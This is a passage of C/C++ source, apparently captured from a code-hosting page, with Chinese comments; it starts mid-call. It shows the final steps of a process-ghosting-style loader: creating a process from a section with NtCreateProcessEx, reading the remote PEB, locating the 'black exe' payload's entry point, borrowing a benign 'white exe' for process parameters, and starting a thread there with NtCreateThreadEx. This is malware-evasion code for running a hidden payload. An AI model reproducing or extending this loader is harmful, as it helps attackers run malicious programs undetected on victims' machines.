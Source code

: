 ```C
        NULL,
        NULL,
        FALSE
    );//根据传入的section创建process
    if (status != STATUS_SUCCESS) {
        cerr << "NtCreateProcessEx failed! Status: " << hex << status << endl;
        if (status == STATUS_IMAGE_MACHINE_TYPE_MISMATCH) {
            cerr << "[!] The payload has mismatching bitness!" << endl;
        }
        return false;
    }
    PROCESS_BASIC_INFORMATION pi = { 0 };
    DWORD ReturnLength = 0;
    status = NtQueryInformationProcess(
        hProcess,
        ProcessBasicInformation,
        &pi,
        sizeof(PROCESS_BASIC_INFORMATION),
        &ReturnLength
    );//索引创建的进程基础信息
    if (status != STATUS_SUCCESS) {
        std::cerr << "NtQueryInformationProcess failed" << std::endl;
        return false;
    }
    PEB peb_copy = { 0 };
    if (!buffer_remote_peb(hProcess, pi, peb_copy)) {//将black exe的内存数据复制到peb_copy，主要作用是获取ImageBaseAddress
        return false;
    }
    ULONGLONG imageBase = (ULONGLONG)peb_copy.ImageBaseAddress;
    DWORD payload_ep = get_entry_point_rva(payladBuf);//获取入口点的偏移地址
    ULONGLONG procEntry = payload_ep + imageBase;//获取到入口点的地址
    if (!setup_process_parameters(hProcess, pi, targetPath)) {//将环境变量写入进程的内存空间，此处是唯一一次用到white exe的地方:)
        std::cerr << "Parameters setup failed" << std::endl;
        return false;
    }
    HANDLE hThread = NULL;
    status = NtCreateThreadEx(&hThread,
        THREAD_ALL_ACCESS,
        NULL,
        hProcess,
        (LPTHREAD_START_ROUTINE)procEntry,
        NULL,
        FALSE,
        0,
        0,
        0,
        NULL
    );//在进程中black exe内存的入口点创建线程

    if (status != STATUS_SUCCESS) {
        std::cerr << "NtCreateThreadEx failed: " << GetLastError() << std::endl;
        return false;
    }

    return true;
}
```
